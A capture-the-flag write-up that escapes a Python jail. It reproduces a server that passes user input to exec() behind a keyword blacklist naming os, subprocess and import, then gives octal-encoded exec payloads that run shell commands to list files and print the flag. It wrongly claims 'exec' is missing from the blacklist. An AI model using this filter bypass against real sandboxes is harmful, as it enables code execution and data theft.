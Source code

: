 # I Want to Break Free

by HexPhoenix

I want to break free... from this Python jail. nc 143.198.184.186 45457

## Analysis

In this challenge we were given a zip file named `jailpublic.zip`. It contains 2 files, `blacklist.txt` and `jail.py`.

#### jail.py

```python
#!/usr/bin/env python3

#!/usr/bin/env python3

def server():
    message = """
    You are in jail. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.readlines()
            for badword in badwords:
                if badword in data or data in badword:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```

It seems that the program will execute if it doesn't contains any string in `blacklist.txt`. So, let's take a look at `blacklist.txt`.

#### blacklist.txt

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

Since the blacklist didn't contains "exec", so we could use it to our advantages. To make it difficult to read by python, we could use another way to interpret the character. For example we can try to use octal here so the python wouldn't detect it as the string they backlisted. (Reference: [bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)).

First we need to read or list what is inside the directory.
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
If we convert those octal number to string, it will turns into: `__import__('os').system('ls')`.

![](iwanttobreakfree(ls).png)

There is `cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt` inside the directory and I think that may be the flag.

Convert our payload into ocal again and wrap it with exec(""). Now we use this payload to read the flag `"__import__('os').system('cat cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt')"`.

Payload:
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\143\146\67\67\62\70\142\145\67\71\70\60\146\144\67\67\60\143\145\60\63\144\71\144\71\63\67\144\66\144\64\60\70\67\63\61\60\146\60\62\144\142\67\146\143\142\141\66\145\142\142\141\144\63\70\142\144\66\64\61\142\141\61\71\56\164\170\164\47\51")
```

Now all we need to do is just send the payload into the program
![](iwanttobreakfree(cat).png)

Flag: `kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`
